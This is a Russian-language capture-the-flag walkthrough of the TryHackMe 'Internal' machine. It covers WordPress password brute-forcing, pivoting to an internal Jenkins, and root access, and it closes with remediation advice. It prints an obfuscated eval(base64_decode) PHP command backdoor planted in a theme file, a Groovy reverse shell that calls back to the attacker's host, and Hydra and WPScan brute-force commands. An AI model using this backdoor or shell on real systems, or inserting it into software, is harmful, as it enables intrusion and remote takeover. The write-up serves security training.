# TryHackMe - Internal

## 1. Reconnaissance (Разведка)

Первым шагом было сканирование портов с помощью **RustScan** для определения периметра атаки.

```bash
rustscan -a 10.66.175.88 -- -sV
```
**Результат:** Обнаружены открытые порты 22 (SSH) и 80 (HTTP).



На порту 80 запущен веб-сервер Apache 2.4.29. 

Был запущен перебор файлов и директорий через **FFUF**:

```bash
ffuf -w wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.66.175.88/FUZZ -e .php,.html,.txt
```



**Результат:** Обнаружена интересная директория /blog.


## 2. Initial Access (Первоначальный доступ)

Перейдя по адресу /blog/, была обнаружена страница блога с надписью "Just another WordPress site", которая подсказывает, что тут используется CMS WordPress.



Было запущено сканирование WordPress с помощью **WPScan**:
```bash
wpscan -e u,ap,t --url http://internal.thm/blog/
```
**Результаты сканирования:**
*   Найден пользователь: `admin`.



Был запущен перебор паролей для найденного пользователя `admin` с помощью **WPScan**:
```bash
wpscan --usernames admin --passwords wordlist/rockyou.txt --url http://internal.thm/blog/
```

**Результат:** Обнаружен пароль my...




Подобранный пароль подошел и удалось зайти в админ-панель WordPress.



## 3. Foothold (Закрепление)

Через классическое редактирование кода плагина выполнить RCE не выйдет - файлы доступны только для чтения



Но редактирование `functions.php` в редакторе тем доступно и поэтому можно туда вставить бэкдор, позволяющий выполнять произвольные команды на любой страницы WordPress'а:
```php
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```




Проверим его выполнив `id`.

**Результат:** в коде страницы получаем исполнение команды `id`



Далее был инициирован Reverse Shell:





В `wp-config.php` был обнаружен пароль, но он не подходил к пользователям которые есть на сервере, а в самой БД не было ничего интересного.



## 4. Privilege Escalation (Повышение привилегий)

Погуляв по директориям в `/opt` был обнаружен интересный файл `wp-save.txt`.

**Результат**: В файле лежали учетные данные aubreanna-пользователя:

* Логин: aubreanna
* Пароль: bub...



Переключившись на пользователя используя обнаруженный пароль в его домашней директории был обнаружен флаг:



## 5. Pivoting

В домашней директории пользователя находился интересный файл `jenkins.txt` подсказывающий, что внутри локальной сети находится Jenkins по адресу: 172.17.0.2:8080



Для доступа к нему необходимо выполнить Pivoting, для этого был использован **ligolo-ng**.

Был отправлен agent-файл для подключения к **ligolo-ng**:



Затем был запущен агент, подключив его к своему прокси-серверу (-ignore-cert использовался из-за самоподписанного сертификата):

```bash
./agent -ignore-cert -connect [local_ip]:11601
```



На своей машине был запустил прокси Ligolo и создан туннельный интерфейс:

```bash
sudo ./proxy -selfcert -v
# В консоли Ligolo:
session
interface_create --name utun10
tunnel_start --tun utun10
```



Далее была настроена маршрутизация, чтобы личная машина знала, как достичь внутренней подсети 172.17.0.0/16 через созданный интерфейс:

```bash
sudo ifconfig utun10 alias 10.66.0.1 255.255.0.0
sudo route add -net 172.17.0.0/16 -interface utun10
```



После настройки туннеля получен доступ к Jenkins по адресу http://172.17.0.2:8080/.



Далее попробовав подобрать логин и пароль с помощью **Hydra** и списка логинов `Seclists/Usernames/top-usernames-shortlist.txt`, а также списка паролей `rockyou.txt`, спустя некоторое время получаем действующий логин и пароль:

```bash
hydra -L wordlist/Seclists/Usernames/top-usernames-shortlist.txt -P wordlist/rockyou.txt -s 8080 172.17.0.2 http-post-form "/j_acegi_security_check:j_username=^USE
R^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=Invalid username or password"
```





Введя обнаруженные логин и пароль - попадаем на панель администратора Jenkins.



Для получения шелла был использован Jenkins Script Console (Настроить Jenkins -> Консоль сценариев), который позволяет выполнять Groovy-скрипты на сервере. Был введен groovy reverse shell скрипт:

```groovy
String host="[local ip]";int port=4444;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```





После выполнения скрипта был получен шелл от имени пользователя jenkins.



---

## 6. Root

Исследуя файловую систему от имени jenkins, был обнаружен файл /opt/note.txt:

```bash
ls -la /opt
cat /opt/note.txt
```

**Результат**: В файле лежали учетные данные root-пользователя:

* Логин: root
* Пароль: tr0u...



Используя эти данные, было осуществленно подключение по SSH к основной машине (internal.thm) от имени root и прочитанн Root флаг:

```bash
ssh root@internal.thm
cat root.txt
```



## Remediation (Рекомендации по устранению)

Для предотвращения подобных атак необходимо:

1. **Защита WordPress:** Использовать надежные пароли для административных аккаунтов (защита от брутфорса). Отключить редактирование файлов тем и плагинов через конфигурацию wp-config.php (define('DISALLOW_FILE_EDIT', true);).
2. **Безопасность данных:** Не хранить учетные данные в открытом виде в текстовых файлах (wp-save.txt, note.txt). Использовать секреты (Environment Variables) или менеджеры секретов.
3. **Сетевая сегментация:** Jenkins не должен быть доступен с веб-сервера без необходимости. Использовать строгие правила файрвола (iptables/ufw) для ограничения доступа к внутренним сервисам.
4. **Jenkins Security:** Ограничить доступ к Script Console только для супер-администраторов. Использовать плагины авторизации (Role-based Authorization Strategy) вместо стандартных учетных записей. Регулярно обновлять Jenkins и плагины.